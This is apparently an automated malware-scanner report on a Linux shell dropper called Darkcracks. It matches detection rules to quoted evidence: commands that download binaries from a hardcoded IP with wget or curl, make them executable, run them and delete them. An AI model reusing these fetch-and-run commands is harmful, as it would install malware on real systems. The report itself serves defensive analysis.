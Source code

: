 ## linux/2024.Darkcracks/darkcracks.sh [😈 CRITICAL]

| RISK | KEY | DESCRIPTION | EVIDENCE |
|:--|:--|:--|:--|
| CRITICAL | [evasion/file/location/chdir_unusual](https://github.com/chainguard-dev/malcontent/blob/main/rules/evasion/file/location/chdir-unusual.yara#cd_val_obsessive) | changes directory to multiple unusual locations | [cd /root](https://github.com/search?q=cd+%2Froot&type=code)<br>[cd /mnt](https://github.com/search?q=cd+%2Fmnt&type=code)<br>[cd /tmp](https://github.com/search?q=cd+%2Ftmp&type=code)<br>[cd /;](https://github.com/search?q=cd+%2F%3B&type=code) |
| CRITICAL | [evasion/self_deletion/run_and_delete](https://github.com/chainguard-dev/malcontent/blob/main/rules/evasion/self_deletion/run_and_delete.yara#run_sleep_delete) | run executable, sleep, and delete | [chmod +x ./wdvsh](https://github.com/search?q=chmod+%2Bx+.%2Fwdvsh&type=code)<br>[./wdvsh agr](https://github.com/search?q=.%2Fwdvsh+agr&type=code)<br>[rm ./wdvsh](https://github.com/search?q=rm+.%2Fwdvsh&type=code)<br>[rm ./agr](https://github.com/search?q=rm+.%2Fagr&type=code)<br>[sleep 3](https://github.com/search?q=sleep+3&type=code) |
| CRITICAL | [net/download/fetch](https://github.com/chainguard-dev/malcontent/blob/main/rules/net/download/fetch.yara#curl_download_ip) | Invokes curl to download a file from an IP | [curl http://179.191.68.85:82/vendor/sebastian/diff/src/Exception/j8UgL3v -o](https://github.com/search?q=curl+http%3A%2F%2F179.191.68.85%3A82%2Fvendor%2Fsebastian%2Fdiff%2Fsrc%2FException%2Fj8UgL3v+-o&type=code) |
| HIGH | [c2/addr/ip](https://github.com/chainguard-dev/malcontent/blob/main/rules/c2/addr/ip.yara#http_hardcoded_ip) | hardcoded IP address within a URL | [http://179.191.68.85:82/vendor/sebastian/diff/src/Exception/pQ1iM9hd-x64-musl](http://179.191.68.85:82/vendor/sebastian/diff/src/Exception/pQ1iM9hd-x64-musl)<br>[http://179.191.68.85:82/vendor/sebastian/diff/src/Exception/j8UgL3v](http://179.191.68.85:82/vendor/sebastian/diff/src/Exception/j8UgL3v) |
| HIGH | [c2/tool_transfer/shell](https://github.com/chainguard-dev/malcontent/blob/main/rules/c2/tool_transfer/shell.yara#tool_chmod_relative_run_tiny) | fetch file, make it executable, and run it | [wget http://179.191.68.85:82/vendor/sebastian/diff/src/Exception/j8UgL3v -O agr](https://github.com/search?q=wget+http%3A%2F%2F179.191.68.85%3A82%2Fvendor%2Fsebastian%2Fdiff%2Fsrc%2FException%2Fj8UgL3v+-O+agr&type=code)<br>[curl http://179.191.68.85:82/vendor/sebastian/diff/src/Exception/j8UgL3v -o agr](https://github.com/search?q=curl+http%3A%2F%2F179.191.68.85%3A82%2Fvendor%2Fsebastian%2Fdiff%2Fsrc%2FException%2Fj8UgL3v+-o+agr&type=code)<br>[chmod +x ./wdvsh](https://github.com/search?q=chmod+%2Bx+.%2Fwdvsh&type=code)<br>[cd /var/run](https://github.com/search?q=cd+%2Fvar%2Frun&type=code)<br>[./wdvsh agr](https://github.com/search?q=.%2Fwdvsh+agr&type=code)<br>[cd /root](https://github.com/search?q=cd+%2Froot&type=code)<br>[cd /tmp](https://github.com/search?q=cd+%2Ftmp&type=code)<br>[cd /mnt](https://github.com/search?q=cd+%2Fmnt&type=code)<br>[./agr](https://github.com/search?q=.%2Fagr&type=code) |
| MEDIUM | [exec/shell/exec](https://github.com/chainguard-dev/malcontent/blob/main/rules/exec/shell/exec.yara#calls_shell) | executes shell | [/bin/bash](https://github.com/search?q=%2Fbin%2Fbash&type=code) |
| MEDIUM | [fs/file/make_executable](https://github.com/chainguard-dev/malcontent/blob/main/rules/fs/file/file-make_executable.yara#chmod_executable_shell) | makes file executable | [chmod +x ./wdvsh](https://github.com/search?q=chmod+%2Bx+.%2Fwdvsh&type=code) |
| MEDIUM | [fs/path/relative](https://github.com/chainguard-dev/malcontent/blob/main/rules/fs/path/relative.yara#relative_path_val) | references and possibly executes relative path | [./wdvsh](https://github.com/search?q=.%2Fwdvsh&type=code)<br>[./agr](https://github.com/search?q=.%2Fagr&type=code) |
| MEDIUM | [fs/path/root](https://github.com/chainguard-dev/malcontent/blob/main/rules/fs/path/root.yara#root_path_val) | path reference within /root | [/root](https://github.com/search?q=%2Froot&type=code) |
| MEDIUM | [fs/permission/modify](https://github.com/chainguard-dev/malcontent/blob/main/rules/fs/permission/permission-modify.yara#chmod) | [modifies file permissions](https://linux.die.net/man/1/chmod) | [chmod](https://github.com/search?q=chmod&type=code) |
| LOW | [fs/path/var](https://github.com/chainguard-dev/malcontent/blob/main/rules/fs/path/var.yara#var_path) | path reference within /var | [/var/run](https://github.com/search?q=%2Fvar%2Frun&type=code) |
| LOW | [net/http](https://github.com/chainguard-dev/malcontent/blob/main/rules/net/http/http.yara#http) | Uses the HTTP protocol | [http](https://github.com/search?q=http&type=code) |
| LOW | [net/url/embedded](https://github.com/chainguard-dev/malcontent/blob/main/rules/net/url/embedded.yara#http_url) | contains embedded HTTP URLs | [http://179.191.68.85](http://179.191.68.85) |
| LOW | [process/chdir](https://github.com/chainguard-dev/malcontent/blob/main/rules/process/chdir.yara#chdir_shell) | changes working directory | [cd /var/run](https://github.com/search?q=cd+%2Fvar%2Frun&type=code)<br>[cd /root](https://github.com/search?q=cd+%2Froot&type=code)<br>[cd /tmp](https://github.com/search?q=cd+%2Ftmp&type=code)<br>[cd /mnt](https://github.com/search?q=cd+%2Fmnt&type=code) |

